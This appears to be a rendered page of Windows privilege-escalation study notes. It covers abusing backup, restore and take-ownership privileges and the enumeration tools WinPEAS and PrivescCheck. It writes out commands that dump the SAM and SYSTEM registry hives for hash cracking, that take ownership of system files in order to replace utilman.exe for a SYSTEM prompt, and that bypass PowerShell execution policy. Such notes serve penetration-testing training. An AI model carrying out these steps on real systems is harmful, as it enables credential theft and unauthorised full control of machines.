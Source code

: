 

## Abusing Dangerous Privileges

### Understanding Windows Privileges

Users may have special privileges that can be leveraged:

- **List Privileges:** `whoami /priv`

### SeBackupPrivilege and SeRestorePrivilege

Allow users to read and write any file, ignoring permissions:

- **Copy Sensitive Files:**
  ```shell
  reg save hklm\sam sam.hive
  reg save hklm\system system.hive
  ```
- **Extract Password Hashes:** Use tools to extract and crack hashes from the copied hives.

### SeTakeOwnershipPrivilege

Allows taking ownership of any object on the system, including files and registry keys.

- **Take Ownership:**
  ```shell
  takeown /f [filename]
  ```
- **Grant Full Control:**
  ```shell
  icacls [filename] /grant [username]:F
  ```
- **Replace Executable:** Replace critical system files (e.g., `utilman.exe`) with a malicious one.

**Note:** Replacing `utilman.exe` can provide a SYSTEM-level command prompt at the login screen.


## Tools for Enumeration and Exploitation

### WinPEAS

An automated script for enumerating potential privilege escalation paths.

- **Usage:** Run on the target system to collect information.
- **Download:** [WinPEAS GitHub Repository](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

### PrivescCheck

A PowerShell script that checks for common privilege escalation vulnerabilities.

- **Usage:**
  ```powershell
  Set-ExecutionPolicy Bypass -Scope Process -Force
  . .\PrivescCheck.ps1
  Invoke-PrivescCheck
  ```
- **Download:** [PrivescCheck GitHub Repository](https://github.com/itm4n/PrivescCheck)
